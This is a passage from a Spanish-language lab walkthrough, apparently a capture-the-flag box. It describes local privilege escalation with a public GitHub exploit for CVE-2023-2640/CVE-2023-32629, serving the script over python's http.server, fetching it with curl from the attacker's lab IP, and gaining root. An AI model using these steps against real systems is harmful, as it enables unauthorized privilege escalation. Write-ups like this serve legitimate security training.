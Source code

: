 Vemos que hay bastantes resultados que nos indican que puede haber una escalada de privilegios, por lo tanto vamos a buscar en github un exploit:

https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

![escalada](Imagenes/59.png)

Pasamos el exploit al subsistema Linux mediante http:

```
python -m http.server 80
```
```
curl http://10.10.14.5/exploit.sh -o exploit.sh
```

![escalada](Imagenes/60.png)

Ejecutamos el exploit y ganamos acceso como root:

![escalada](Imagenes/61.png)

---

## 4. Escape del subsistema Linux y explotación del sistema Windows
